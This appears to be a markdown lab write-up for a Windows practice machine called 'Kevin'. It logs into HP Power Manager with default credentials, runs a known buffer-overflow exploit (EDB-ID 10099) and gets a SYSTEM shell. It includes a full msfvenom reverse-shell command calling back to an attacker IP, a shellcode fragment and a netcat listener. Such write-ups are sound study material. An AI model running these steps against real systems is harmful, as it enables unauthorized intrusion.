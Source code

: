 # 🏴 Kevin (Windows)

## 🧠 Initial Foothold

- Performed an Nmap scan and found port 80 open.

- Logged into the HP Power Manager web interface using default credentials `admin:admin`.

- Identified the target as vulnerable to:  
  **HP Power Manager 4.2 - Buffer Overflow** ([EDB-ID 10099](https://www.exploit-db.com/exploits/10099))

- Generated a Windows reverse shell payload using `msfvenom`, taking care to exclude the bad characters specified in the exploit documentation:

  ```bash
  msfvenom -p windows/shell_reverse_tcp -f exe --platform windows -a x86 -e x86/alpha_mixed -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.45.152 LPORT=443
  ```

- Inserted the generated shellcode into the exploit script after the `n00bn00b` marker:

  ```python
  SHELL = (
  "n00bn00b"
  "\x89\xe6\xdb\xdd\xd9\x76\xf4\x5e\x56\x59\x49\x49\x49\x49\x49"
  "\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a\x6a"
  ...
  )
  ```

- Started a netcat listener with:

  ```bash
  nc -lvp 443
  ```

- Executed the exploit script using Python 2:

  ```bash
  python2 10099.py <target_ip>
  ```

- This provided a SYSTEM-level reverse shell on the target machine.  
  ⚡ No additional privilege escalation was required.

---

🧼 **Post-Exploitation Note:**  
Always validate exploit shellcode structure and listener port matches.

> ⚠️ This walkthrough is for educational purposes only.
